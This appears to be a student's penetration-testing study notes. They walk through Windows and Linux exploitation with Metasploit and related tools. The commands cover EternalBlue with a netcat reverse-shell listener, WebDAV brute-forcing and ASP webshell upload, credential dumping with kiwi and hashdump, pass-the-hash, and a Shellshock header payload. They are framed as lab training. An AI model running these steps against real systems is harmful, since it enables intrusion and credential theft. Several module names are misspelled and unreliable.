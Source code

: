 # Windows Vulns

- Each Windows version have many vulns associate with.
    - Information disclosure: Access confidential data
    - Buffer overflows 
    - Remote code execute
    - Priviege escalation
    - DOS

## Frequently exploited
- SMB (share files and folder)
- IIS (80, 443) - Web server
- WebDAV (80, 443) - File server for web
- RDP (Remote desktop protocol) ~ 3389
- WinRM (Windows remote management) ~ 5986,443

## Vulns scanning
- `search type:exploit name:<service>` search for exploit for some service
    - Sunglass service
        `set payload windows/meterpreter/reverse_tcp`

- `searchsploit <service>` command - search in exploit db
    - smb has exploit `external blue` on Windows 7/8/sv 2008 R2
- Another db exploit that we can use is [db_autopwn](https://github.com/hahwul/metasploit-autopwn)
    - Download the rb script, move it to /usr/share/metaspl../plugins/
    - On `msfconsole` run `load db_autopwn`
- `analyze` command on `msfconsole - Analyze the host and find vulns

## WebDAV

IIS, web server, provide admin GUI for management. IIS supported exe file extensions:
- asp
- aspx
- config
- php

WebDAV, enable a web server to functions as a file server for collaborative
    - WebDav implements auth in the form of username and password.
    - First step of exploit is identify webDAV has been config to run on IIS server
    - After get the legit credential, we can login and upload a malicious .asp payload
    - Tools: `davtest`, `cadaver`

Exploit steps:
- `nmap -sV -p 80,443 --script=http-enum <target>` - simple check if server have webDAV 
- Brute force auth using `hydra -L <wordlists_user> -P <wordlists_pass> <target> http-get <webDAV URI path>`
- Other way `davtest -url <target>/webdav`
    - `davtest -auth <username:pass> ....` output what file we can upload or execute on the webDAV
- `cadaver <target>` -> Provide user and password -> Interact with shell
    - Use web shell in `/usr/share/webshells/asp/webshell.asp` ~ `put <path>`
    - Lauch the webshell by click on it

## External blue:

**Manual**
- WannaCry using this exploit to spreading ransomware
- Specific tool [Auto Blue](https://github.com/3ndG4me/AutoBlue-MS17-010)
    - Define LHOST and port -> Gen shell code
    - Setup netcat listener `nc -nvlp 1234`
    - `python externalblue_exploit7.py <target> <shellcode_path>/sc_x64.bin
    - Netcat will open remote sessions

**Automation:** We can using msf `exploit/ ... ms17_010_externalblue` -> meterpreter.

## BlueKeep - RDP Vulns

CVE-2019-0708: This vulns target kernel space memory.

- `msf` exploit modules `cve_20..._bluekeep_rce`
    - Use `show targets` for display targets systems -> `set target <number>`
    - Must be set correct target!!
    - If RAM size too high, maybe exploit will fail.
    - Sometimes Windows system will crash during the exploit

### Badblue
- `search badblue`
- use `bablue_passthru` -> Meterpreter
- `pgrep lsass` -> `migrate <id>` -> check with `getuid`
- `load kiwi`
- `lsa_dump_sam` -> Get hash ntlm
- `hash_dump` to get LM hash

### Pass the hash
- We can use the hash as password for modules `exploit/windows/smb/psexec`
  - `set target` change target if needed.

- `crackmapexec smb <target> -u <user> -H <NTLM_hash>` `-H` as HASH

# Linux vulns

- Apache server
- SSH - 22
- FTP - 21/23
- SAMBA 445

## Shellshock 
- CGI script with some specical character in request can make Linux target execute bash script

Exploit by using burpsuite

[Ref](https://github.com/opsxcq/exploit-CVE-2014-6271)

**Steps**:
- `nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <target>` - Scan for vuln
- Open burpsuite and intercept the request, change the user-agent to contains `() {:;};`
- We can use module `apache_mod_cgi_bash_env_exec` to exploit

# Nessus

[Nessus Webpage](https://www.tenable.com/products/nessus)

[Lab enviroment](https://github.com/rapid7/metasploitable3)

- Download the free edition
- Change setting and + new scan -> target
- Nessus scan can be import into msf
    - `vulns -p 445` filter vuln for port 445
    - `search cve:<cve_id or year> name:<service>`

# WMAP

WMAP is web vulns scanner. WMAP is fully intergrated with MSF

- Open `msfconsole` -> `load wmap`
- `wmap_sites` Use to add, list and delelte, display site
    - `wmap -a <target>`
- `wmap_targets` add or changing target.
    - `wmap_targets -t <target_url>`
- `wmap_run` `-t` show available modules
    - `-e` Use all availabe modules
- `wmap_vulns -l` list vulns


- module `http_put` put or delete file on server
    - Set URI path Rhosts and run